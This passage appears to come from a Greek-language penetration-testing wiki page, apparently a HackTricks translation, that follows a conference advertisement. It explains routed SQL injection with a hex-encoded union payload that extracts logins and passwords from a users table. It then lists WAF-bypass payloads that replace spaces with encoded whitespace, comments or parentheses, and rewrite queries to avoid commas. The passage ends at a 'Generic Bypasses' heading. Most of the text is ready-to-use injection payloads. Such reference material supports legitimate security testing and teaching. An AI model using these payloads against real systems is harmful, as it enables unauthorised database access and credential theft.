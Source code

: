 ​​​​​​[**RootedCON**](https://www.rootedcon.com/) είναι η πιο σχετική εκδήλωση κυβερνοασφάλειας στην **Ισπανία** και μία από τις πιο σημαντικές στην **Ευρώπη**. Με **αποστολή την προώθηση της τεχνικής γνώσης**, αυτό το συνέδριο είναι ένα καυτό σημείο συνάντησης για επαγγελματίες της τεχνολογίας και της κυβερνοασφάλειας σε κάθε τομέα.

{% embed url="https://www.rootedcon.com/" %}

## Routed SQL injection

Routed SQL injection είναι μια κατάσταση όπου το ερωτηματικό που μπορεί να εισαχθεί δεν είναι αυτό που δίνει έξοδο, αλλά η έξοδος του ερωτήματος που μπορεί να εισαχθεί πηγαίνει στο ερώτημα που δίνει έξοδο. ([Από Έγγραφο](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Routed%20SQL%20Injection%20-%20Zenodermus%20Javanicus.txt))

Example:
```
#Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```
## WAF Bypass

[Αρχικές παρακάμψεις από εδώ](https://github.com/Ne3o1/PayLoadAllTheThings/blob/master/SQL%20injection/README.md#waf-bypass)

### No spaces bypass

No Space (%20) - παρακάμψη χρησιμοποιώντας εναλλακτικές κενές θέσεις
```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```
No Whitespace - παράκαμψη χρησιμοποιώντας σχόλια
```sql
?id=1/*comment*/and/**/1=1/**/--
```
No Whitespace - παράκαμψη χρησιμοποιώντας παρενθέσεις
```sql
?id=(1)and(1)=(1)--
```
### No commas bypass

No Comma - παράκαμψη χρησιμοποιώντας OFFSET, FROM και JOIN
```
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```
### Generic Bypasses
